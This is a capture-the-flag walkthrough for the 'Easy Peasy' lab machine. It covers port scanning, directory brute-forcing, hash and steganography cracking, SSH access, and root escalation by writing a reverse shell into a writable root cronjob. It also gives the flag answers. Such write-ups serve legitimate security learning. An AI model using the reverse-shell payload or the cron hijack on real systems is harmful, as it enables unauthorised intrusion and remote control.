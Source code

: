 # Easy Peasy

  - [Task 1](#task-1)
  - [Task 2](#task-2)

## Task 1

<i>First we should check how many ports are open. To do so we will use [nmap](https://nmap.org/). We will use the `-p-` flag to scan all ports.<br>
The full command looks like this: `nmap -p- -sV MACHINE_IP`<br>
This can take a long time but nmap returns us the following.</i>

<pre>
PORT      STATE SERVICE VERSION
<b>80/tcp</b>    open  http    nginx <b>1.16.1</b>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
<b>6498/tcp</b>  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
<b>65524/tcp</b> open  http    <b>Apache</b> httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

1. How many ports are open?<br>
   `3`

<i>To detect the version of [nginx](https://nginx.org) we look at the output above.</i>

2. What is the version of nginx?<br>
   `1.16.1`

<i>The output above also entails the answer to the last question.</i>

3. What is running on the highest port?<br>
   `Apache`

## Task 2

<i>We can use [gobuster](https://github.com/OJ/gobuster) to search for hidden directories. By using the `-u` flag we can specify a url to attack. As a wordlist we will use the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The command: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`</i>

<pre>
<b>/hidden</b> (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
</pre>

<i>When visiting the `/hidden` directory there is only a picture and the source code also does not help us. But that cannot be the end. Let's continue the search and perform another gobuster search on the `/hidden` directory.<br>
The full command: `gobuster dir -u "http://MACHINE_IP/hidden" -w ./common.txt`</i>

<pre>
/index.html (Status: 200)
<b>/whatever</b> (Status: 301)
</pre>

<i>The `/whatever` directory looks interesting. By visiting the page there again is just a picture. But looking at the source code we can see a hidden p-tag with a `base64` looking string in it. Let's decode this string: `echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`</i>

1. What is flag 1?<br>
   `flag{f1rs7_fl4g}`

<i>Now looking at the Apache server we can see the default page. We could make another gobuster scan to find maybe some interesting files or directories.<br>
The full command: `gobuster dir -u "http://MACHINE_IP:65524" -w ./common.txt`<br>
Gobuster returns nothing really special but let's look at the `robots.txt`. At the User-Agent field there is a string, looking like a `MD5` hash or somehting like that.</i>

<pre>
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
<b>/robots.txt</b> (Status: 200)
/server-status (Status: 403)
</pre>

<i>To crack the hash I tried many websites but all of them haven't worked for me. Except one: [md5hashing.net](https://md5hashing.net). I inserted the hash, waiting. And the website returned me the second flag.</i>

2. What is flag 2?<br>
   `flag{1m_s3c0nd_fl4g}`

<i>Looking back to the Apache default page source code we can see the third flag in plain text. If you cannot find the flag at once, just keep searching.</i>

3. What is flag 3?<br>
   `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

<i>The next question tells us to search for another hidden diretory. But not so fast. When I looked at the default page I also found another message: `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`. Should that mean that the string is `base` encoded? Let's try to decode it. A great website to test something like this is [CyberChef](https://gchq.github.io/CyberChef). I tried every `from base...` and got a hit with `base62`.</i>

4. What is the hidden directory?<br>
   `/n0th1ng3ls3m4tt3r`

<i>When visiting the hidden directory we can see another picture, another hash in the source code. The picture looks interesting because it is not stored on pixabay like the other pictures before. And its name maybe should mislead us. Maybe there is a hidden file inside the picture. Let's download the picture by using `wget`.<br>
The command: `wget "http://MACHINE_IP:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg"`<br>
Now we can try [steghide](http://steghide.sourceforge.net) on this picture. With `-sf` we can set a file to extract from.<br>
The full command: `steghide extract -sf binarycodepixabay.jpg`<br>
But it prompts for a password which we don't have. Remember, there was this hash on the page and the room provides a wordlist. After downloading the wordlist we can start up [stegcracker](https://github.com/Paradoxis/StegCracker) to crack the password.<br>
The command: `stegcracker binarycodepixabay.jpg easypeasy.txt`</i>

<pre>
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: mypasswordforthatjob
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
<b>mypasswordforthatjob</b>
</pre>

5. What is the password from the hash?<br>
   `mypasswordforthatjob`

<i>We can `cat` out the `binarycodepixabay.jpg.out` and see the following.</i>

<pre>
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
</pre>

<i>A username and a password encoded in binary...interesting. On [RapidTables](https://www.rapidtables.com/convert/number/binary-to-ascii.html) we can easily paste the binary in and convert it to plain text.</i>

6. What is the password to login to the machine via SSH?<br>
   `iconvertedmypasswordtobinary`

<i>We have all credentials for an ssh login. After logging in we are in the home directory and can `cat` the `user.txt`.</i>

<pre>
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
</pre>

<i>The flag is 'rotated'. That means we should decode the flag with `ROT13`. I used an [online tool](https://gc.de/gc/rot13).</i>

7. What is the user flag?<br>
   `flag{n0wits33msn0rm4l}`

<i>Now we have to become root to read the root flag. Looking at the cronjobs with `cat /etc/cronjobs` shows a cronjob running as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
<b>* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh</b>
</pre>

<i>When we look at the `.mysecretcronjob.sh` we have read and write permissions. That means we can execute commands as root. To get a reverse shell we can copy one from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Now we have to `nano .mysecretcronjob.sh` and paste in our reverse shell.</i>

<pre>
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/8080 0>&1
</pre>

<i>And we have to listen for a connection using `netcat -lnvp 8080`. It does not need much time and we get a connection and become root. we can `cd` into the `/root` diretory and `ls -a` list all files. There is a `.root.txt` file. Because we are root we can simply type `cat .root.txt` and get the final root flag.</i>

8. What is the root flag?<br>
   `flag{63a9f0ea7bb98050796b649e85481845}`
